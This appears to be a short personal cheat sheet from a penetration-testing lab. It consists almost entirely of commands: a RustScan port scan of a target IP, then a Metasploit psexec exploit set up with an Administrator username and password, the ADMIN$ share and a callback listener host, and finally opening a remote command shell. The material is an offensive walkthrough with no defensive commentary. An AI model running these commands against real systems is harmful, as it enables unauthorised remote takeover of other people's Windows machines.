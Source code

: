 # Simple usage

```shell
rustscan -a 10.129.201.160 --ulimit 5000
```

```shell
msfconsole

search smb/psexec

use exploit/windows/smb/psexec
use 2

set RHOSTS 10.129.180.71
set SHARE ADMIN$
set SMBUser Administrator
set SMBPass P@ssw0rd
set LHOST 10.10.14.222
exploit
```

Get a cmd shell

```shell
shell
```
